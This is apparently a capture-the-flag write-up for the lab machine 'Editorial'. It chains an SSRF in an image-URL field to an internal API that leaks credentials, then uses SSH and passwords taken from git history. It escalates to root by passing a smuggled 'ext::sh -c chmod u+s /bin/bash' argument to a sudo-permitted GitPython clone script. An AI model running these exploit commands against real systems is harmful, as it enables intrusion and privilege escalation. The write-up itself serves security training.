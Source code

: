 # export ip=`10.129.216.229`

# date 16-06-24 || Rohit Tiwari

# os: `Linux (Ubuntu)`,Nginx server

# Nmap scan

> Machine not booting up have to download a comettive vpn for this

```
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 0d:ed:b2:9c:e2:53:fb:d4:c8:c1:19:6e:75:80:d8:64 (ECDSA)
|_  256 0f:b9:a7:51:0e:00:d5:7b:5b:7c:5f:bf:2b:ed:53:a0 (ED25519)
80/tcp    open     http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://editorial.htb
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
4811/tcp  filtered unknown
19643/tcp filtered unknown
24608/tcp filtered unknown
27308/tcp filtered unknown
39399/tcp filtered unknown
41540/tcp filtered unknown
50857/tcp filtered unknown
63391/tcp filtered unknown
64733/tcp filtered unknown
```

 ## `Things To do`

### PORT 80

- [x] Manual enumeration
- [x] Souce code
- [ ] fuzzing
- [x] Subdomain fuzz
- [ ] Fuzz for parameters like ?=Fuzz
- [ ] look for cred 
- [ ] Sql inection


   
> On Port 80 found a simple webpage woith nginx server 1.18.0
> ![](Attachments/Pasted%20image%2020240616145834.png)
> 

Found a /upload dir may be if can upload some arbiatry file for rce

![](Attachments/Pasted%20image%2020240616145958.png)


> Okay so there's a section to add url to book image tried connecting to myslef using python server worked that confirm SSRF then tried to scan it's own local network got a response 200 with a jpeg file which in execcuting doesn;t show much so tried burp intruder to check for any different port resonse

![](Attachments/Pasted%20image%2020240616165652.png)

> got port 5000 to have differernt response size

okay so response of this port 5000 got a path to image 
![](Attachments/Pasted%20image%2020240616170452.png)

>On searching it on browser found 

![](Attachments/Pasted%20image%2020240616170528.png)


> But got a file downloaded and it contains some api endpoints

![](Attachments/Pasted%20image%2020240616170613.png)


```json
"messages":[{"promotions":{"description":"Retrieve a list of all the promotions in our library.","endpoint":"/api/latest/metadata/messages/promos","methods":"GET"}},{"coupons":{"description":"Retrieve the list of coupons to use in our library.","endpoint":"/api/latest/metadata/messages/coupons","methods":"GET"}},{"new_authors":{"description":"Retrieve the welcome message sended to our new authors.","endpoint":"/api/latest/metadata/messages/authors","methods":"GET"}},{"platform_use":{"description":"Retrieve examples of how to use the platform.","endpoint":"/api/latest/metadata/messages/how_to_use_platform","methods":"GET"}}],"version":[{"changelog":{"description":"Retrieve a list of all the versions and updates of the api.","endpoint":"/api/latest/metadata/changelog","methods":"GET"}},{"latest":{"description":"Retrieve the last version of api.","endpoint":"/api/latest/metadata","methods":"GET"}}]}

```

okay so tried this api endpoint got
![](Attachments/Pasted%20image%2020240616171135.png)
>api endpoint 

```
http://127.0.0.1:5000/api/latest/metadata/messages/authors
```

> Then got a path to image and searching found creds

```
{"template_mail_message":"Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, Editorial Tiempo Arriba Team."}
```

Creds : `dev dev080217_devAPI!@`


> Got ssh


```
ssh dev@$ip                                        
The authenticity of host '10.129.216.229 (10.129.216.229)' can't be established.
ED25519 key fingerprint is SHA256:YR+ibhVYSWNLe4xyiPA0g45F4p1pNAcQ7+xupfIR70Q.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.216.229' (ED25519) to the list of known hosts.
dev@10.129.216.229's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-112-generic x86_64)

```


# Privesc

First went to .git dir and did git log to see all logs

![](Attachments/Pasted%20image%2020240616173649.png)

`git show b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
`

![](Attachments/Pasted%20image%2020240616171828.png)

Got passwd for `prod`  `080217_Producti0n_2023!@`

Then ssh to prod

`sudo -l`

```
Matching Defaults entries for prod on editorial:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User prod may run the following commands on editorial:
    (root) /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *
```

show tthe script

```
prod@editorial:/opt/internal_apps/clone_changes$ cat  /opt/internal_apps/clone_changes/clone_prod_change.py
#!/usr/bin/python3

import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
```

> in this sciprt first it cahnges the git dir and trieed to colne a repo drom url

googled and found on little trick use this script to make /bin/bash executable with prod user 


```
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c chmod% u+s% /bin/bash'
```

then

`/bin/bash -p`

got root

